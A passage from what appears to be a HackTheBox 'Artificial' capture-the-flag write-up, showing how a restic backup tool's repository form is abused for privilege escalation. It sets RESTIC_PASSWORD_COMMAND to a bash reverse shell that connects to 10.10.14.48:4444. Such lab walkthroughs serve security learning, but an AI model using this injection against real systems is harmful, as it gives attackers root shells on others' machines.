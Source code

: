 Now, go to **Add Repo**.

<img src="/assets/HTB/Artificial/image8.png" alt="Error loading Image">

From here, we can see how to add a new repository:

[https://restic.readthedocs.io/en/latest/030_preparing_a_new_repo.html](https://restic.readthedocs.io/en/latest/030_preparing_a_new_repo.html)



To get an **elevated reverse shell**, we use:

* **Repo name:** `pwn`
* **URL:** `/tmp/abc`
* **Environment variable:**
  `RESTIC_PASSWORD_COMMAND=bash -c 'bash -i >& /dev/tcp/10.10.14.48/4444 0>&1'`

<img src="/assets/HTB/Artificial/image9.png" alt="Error loading Image">
